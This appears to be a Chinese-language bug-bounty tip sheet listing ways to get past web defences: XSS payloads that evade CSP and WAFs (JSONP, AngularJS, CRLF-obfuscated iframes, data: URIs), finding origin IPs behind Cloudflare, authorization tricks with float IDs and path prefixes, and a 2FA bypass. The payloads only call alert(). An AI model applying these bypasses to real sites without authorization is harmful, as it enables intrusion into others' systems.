

# Bypass BugBountyTips

### Bypasses:

1.[@fasthm00](https://twitter.com/fasthm00/status/1083371791760818176)：Bypass 内容安全策略(CSP)

```js
#JSONP:
<script src="https://trustedsite/jsonp?callback=payload">

#AngularJS
<script src="https://trustedsite/angularjs/1.1.3/angularjs.min.js">
<div ng-app ng-csp id=p ng-click=.view.alert(1)>
```

2.[@neeraj_sonaniya](https://twitter.com/neeraj_sonaniya/status/1089235277250387969)：遇到AWS WAF时可以尝试添加"<!"()不带引号,然后绕过该WAF：例如：

```js
<!<script>alert(1)</script>
```

3.如果遇到目前网站使用的是Cloudflare，挖掘其DNS记录并搜索真实IP地址，直接对IP地址进行攻击，WAF将不会生效。

4.@LooseSecurity:这是我混淆的Payload。它绕过了许多WAF，包括CloudFlare iirc，具有javascript URI Payload的iFrame。使用换行符[CRLF]将其混淆：

```js
<iframe src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aalert(0)">
```

5.@ameenmaali:使用数字ID测试授权/访问控制时，尝试使用小数/浮点数，然后四舍五入到要访问的数字。例如：
管理员角色ID为1
尝试将您的ID设置为0.9，它可能会绕过身份验证检查，因为系统将在身份验证检查后上舍入.

6.[@hakluke](https://twitter.com/hakluke/status/1183314554874318849)：在做Web渗透测试时，我经常会检查一些错误，这些错误通常会被遗漏。这是一个例子：

我检查是否使用与已删除帐户相同的用户名进行注册可以让我访问其旧数据。

7.[@404death](https://twitter.com/404death/status/1191222237782659072)：CSP Bypass, script-src 'self' data:

```js
<script ?/src="data:+,\u0061lert%281%29">/</script>
```

8.是否要绕过文件扩展名限制？

请尝试在filename参数上使用HTTP参数污染。




9.有时您会找到那些转发到登录页面的PATH，但看不到其中的内容。 （例如: /path/to/secret --> Google login）

采取所有这些PATH，在PATH之前加上/public/作为：/public/path/to/secret，可以访问Jenkins实例。

10.[@HackerHumble](https://twitter.com/HackerHumble/status/1274259490322313219)：2 FA Bypass:

* 1.网站正在使用适用于2A的Google身份验证器。
* 2.有一个端点，可以为您提供QR码/身份验证码，以添加到您的Google Authenticator应用中。
* 3.设置完成后，用户可以使用Google应用执行2FA，并在下次登录frok。

11.403 Bypass Tips：

1.[403Bypass的一些经验技巧](https://github.com/KathanP19/HowToHunt/blob/master/Status_Code_Bypass/403Bypass.md)

2.[403bypasser Shell脚本一](https://github.com/yunemse48/403bypasser)

3.[403bypasser Shell脚本二](https://github.com/iamj0ker/bypass-403)

4.[403Bypass BurpSuite插件](https://github.com/sting8k/BurpSuite_403Bypasser)


